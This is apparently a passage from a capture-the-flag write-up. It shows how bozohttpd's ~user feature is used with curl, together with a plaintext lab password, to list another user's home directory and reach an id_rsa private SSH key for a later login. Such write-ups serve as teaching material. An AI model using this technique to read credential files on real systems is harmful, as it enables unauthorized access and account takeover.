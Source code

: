 Searching for bozohttpd, the server used for this publishing, I have found its [**man page**](https://man.netbsd.org/NetBSD-7.0/bozohttpd.8) which describes one of its features: *~user translation*, que allows us to access user's virtual directories using requests like `http://<server>/~<username>`. This was confirmed by using the following `curl`command:  

```bash
curl http://127.0.0.1:3000/~r.michaels -u webapi_user
Enter host password for user 'webapi_user':iamthebest
  
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 172 0 172 0 0 86000 0 --:--:-- --:--:-- --:--:-- 86000
<html><head><title>Document Moved</title></head>
<body><h1>Document Moved</h1>
This document had moved <a href="http://127.0.0.1:3000/~r.michaels/">here</a>
</body></html>
```

As this instance on 3000/TCP is running with `_httpd` account, we had not enough permissions to access r.michael's directory but, as we noticed that there's another instance of this app running on 3001/TCP, we could get the following result, where we can see an **id_rsa** file.

```bash
curl http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user
Enter host password for user 'webapi_user':iamthebest

% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 601 0 601 0 0 293k 0 --:--:-- --:--:-- --:--:-- 586k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
border-top: 1px solid black;
border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```

Once we have downloaded it we noticed that it is an OpenSSH key, which could possibly allow us to connect as `r.michaels` and obtain the user flag.
